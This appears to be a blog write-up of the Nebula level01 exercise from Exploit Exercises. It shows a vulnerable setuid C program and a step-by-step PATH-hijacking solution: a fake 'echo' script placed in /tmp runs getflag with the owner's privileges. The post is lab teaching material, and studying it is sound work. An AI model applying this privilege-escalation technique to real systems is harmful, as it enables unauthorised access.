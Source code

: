 ```yaml
---
layout:     post
title:      "Nebula 01"
subtitle:   "Exploit Exercises Write-Up"
date:       2017-06-07 0:00:00
author:     "W3ndige"
header-img: "img/nebula-header.jpg"
permalink: /:title/
category: "Exploit Exercises"
---
```


<h1>Introduction</h1>

<p>Let's start another challenge from Nebula machine and see what's our target this time. </p>

<h1>Challenge</h1>

<p><b>About</b></p>

<pre>
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.
</pre>

<p><b>Code</b></p>

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
{% endhighlight %}

<p><b>Solution</b></p>

<p>Firstly, from the code, we know that <b>/usr/bin/env</b> will execute a program with the current enviroment. It includes a <b>$PATH</b> variable, which stores information where programs can be found. That way we can change the $PATH to some other folder, containing <b>echo</b> script. Then it will run the getflag program, just like in the previous level. </p>

{% highlight bash %}
level01@nebula:~$ cd /home/flag01
level01@nebula:/home/flag01$ ls -l
total 8
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
{% endhighlight %}

<p>In addition, setuid bit is set, so it will run as the owner <b>flag01</b>. Let's start from creating a tmp directory, which will be our fake one. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ mkdir /tmp/level01
{% endhighlight %}

<p>Now we are able to create fake PATH using export command, and then create the fake echo program. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ export PATH="/tmp/level01:$PATH"
level01@nebula:/home/flag01$ echo "getflag" > /tmp/level01/echo
{% endhighlight %}

<p>Don't forget about the execute permissions. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ chmod +x /tmp/level01/echo
{% endhighlight %}

<p>And we're ready to go, and run this vulnerable program. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ ./flag01
You have successfully executed getflag on a target account
{% endhighlight %}

<p>Another challenge completed! </p>
